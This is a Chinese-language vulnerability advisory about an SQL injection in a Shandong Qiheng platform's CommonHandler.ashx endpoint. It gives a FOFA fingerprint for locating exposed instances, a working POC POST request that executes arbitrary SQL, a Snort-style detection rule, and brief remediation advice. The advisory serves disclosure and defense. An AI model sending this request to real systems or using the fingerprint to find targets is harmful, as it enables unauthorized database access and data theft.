

# 山东启恒信息科技有限公司数智化平台 CommonHandler 存在SQL注入漏洞

山东启恒信息科技有限公司数智化平台 CommonHandler 存在SQL注入漏洞，攻击者可进行sql注入攻击获取数据库信息或者权限。

# 影响版本

山东启恒信息科技有限公司数智化平台 

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：icon_hash=1409809372

POC/EXP：

```
POST /Handers/CommonHandler.ashx?action=ExecuteSqlText HTTP/1.1
Host:127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest

SqlText=select @@version
```



sonrt规则：

```
alert http any any -> $HOME_NET any (
    msg:"山东启恒数智化平台 - /Handers/CommonHandler.ashx action=ExecuteSqlText SQL注入";
    flow:to_server,established;
    http.method; content:"POST";
    http.uri;
        content:"/Handers/CommonHandler.ashx";
        fast_pattern;
    http.uri;
        content:"action=ExecuteSqlText";
    http.content_type; content:"application/x-www-form-urlencoded";
    http.request_body;
        content:"SqlText=";
        content:"select"; distance:0; nocase;
        content:"@@version"; distance:0; nocase;
    metadata:
        service http,
        affected_product "山东启恒信息科技有限公司 数智化平台",
        vulnerability_type "SQL Injection / Direct SQL Execution",
        severity "critical";
    classtype:web-application-attack;
    sid:1000759;
    rev:1;
    priority:1;
)
```

# 漏洞修复

关闭互联网暴露面或接口设置访问权限，升级至安全版本。
